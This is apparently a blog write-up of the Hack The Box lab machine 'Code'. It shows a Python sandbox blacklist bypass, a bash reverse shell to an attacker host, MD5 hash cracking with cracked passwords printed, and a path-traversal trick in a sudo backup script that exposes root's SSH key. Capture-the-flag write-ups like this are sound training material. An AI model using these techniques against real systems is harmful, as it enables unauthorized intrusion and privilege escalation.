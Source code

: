```yaml
---
title: HTB Code - Writeup
date: 2025-04-05 21:53:00 +0330
categories: [Writeup]
tags: []
description: My writeup of Code from Hack The Box 

---
```


![](assets/img/Code.png)

## - **Recon & Enum**
Starting with an Nmap scan as always
```
$ sudo nmap -sC -sV -oN code_nmap --min-rate=1000 10.10.11.62 -p-

Nmap scan report for 10.10.11.62
Host is up (0.47s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

On port 5000 there is a python editor sandbox, but we have to bypass some restrictions on keywords such as `import` so we can write arbitrary code. At first, I checked if the blacklist was actually in a list or tuple so we can empty it which did not work so I used a list of integers to represent bytes and `getaddr` to run the commands.
>you can get the list of ints of any string with `list(b'<str>')` inside python
{: .prompt-tip }

## - **Foothold**

![](assets/img/code_chr.png)
here I got the module `os` as it is blacklisted
![](assets/img/code_bypass.png)
and here I got to execute commands and also read the output.  
Now all we have to do is to get a reverse shell

```
op=[111,115]
sys=[115, 121, 115, 116, 101, 109]
pop=[112, 111, 112, 101, 110]
brd=[114, 101, 97, 100]

o=globals().get(bytes(op).decode())
s=bytes(locals().get("sys")).decode()
p=bytes(locals().get("pop")).decode()
b=bytes(locals().get("brd")).decode()

att = getattr(o,p)("bash -c 'bash -i >& /dev/tcp/*.*.*.*/8080 0>&1'")
#print(getattr(att,b)())
```

- `op`: the os module  
- `sys`: system attribute  
- `pop`: popen attribute  
- `brd`: read builtin function  

```
$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.62] 42172
bash: cannot set terminal process group (6456): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$
```

## - **User**

When I was checking the global variables in the editor, I noticed a `db` and inside it pointed to `/home/app-production/app/instance/database.db` and from it I got two hashes, one for user `development` and one for `martin`.  
I used hashcat to crack them and got the user.

```
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
$ hashcat --show hash.txt -m 0                          
759b74ce43947f5f4c91aeddc3e5bad3:development
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

```
$ ssh martin@10.10.11.62

martin@code:~$ id
uid=1000(martin) gid=1000(martin) groups=1000(martin)
```



## - **Root**

```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
As you can see, we can run backy.sh as root. It is some sort of a backup script and we can change the path of backing up by altering `task.json` in the backups folder. The script only acceptes paths starting with either `/home` or `/var` and will remove `../` from them, so what if we add double dots before and a slash after that like this `....//` ?
```
martin@code:~/backups$ cat task.json 
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root"
  ],
  "exclude": []
}
```

you guessed it, we got the root folder
```
martin@code:~/backups$ sudo backy.sh task.json 
2025/07/26 21:03:11 🍀 backy 1.2
2025/07/26 21:03:11 📋 Working with task.json ...
2025/07/26 21:03:11 💤 Nothing to sync
2025/07/26 21:03:11 📤 Archiving: [/home/../root]
2025/07/26 21:03:11 📥 To: /home/martin/backups ...
2025/07/26 21:03:11 📦
tar: Removing leading `/home/../' from member names
/home/../root/
/home/../root/.local/
/home/../root/.local/share/
/home/../root/.local/share/nano/
/home/../root/.local/share/nano/search_history
/home/../root/.selected_editor
/home/../root/.sqlite_history
/home/../root/.profile
/home/../root/scripts/
/home/../root/scripts/cleanup.sh
/home/../root/scripts/backups/
/home/../root/scripts/backups/task.json
/home/../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/../root/scripts/database.db
/home/../root/scripts/cleanup2.sh
/home/../root/.python_history
/home/../root/root.txt
/home/../root/.cache/
/home/../root/.cache/motd.legal-displayed
/home/../root/.ssh/
/home/../root/.ssh/id_rsa
/home/../root/.ssh/authorized_keys
/home/../root/.bash_history
/home/../root/.bashrc
```
Now, even though we got the flag, the most important part is to get the shell, to have FULL CONTROL!  
this machine did the job for us and put the id_rsa file right in the root directory.
```
$ ssh root@10.10.11.62 -i id_rsa

root@code:~# id
uid=0(root) gid=0(root) groups=0(root)	
root@code:~#
```
and DONE!

![](assets/img/code_congrats.png)
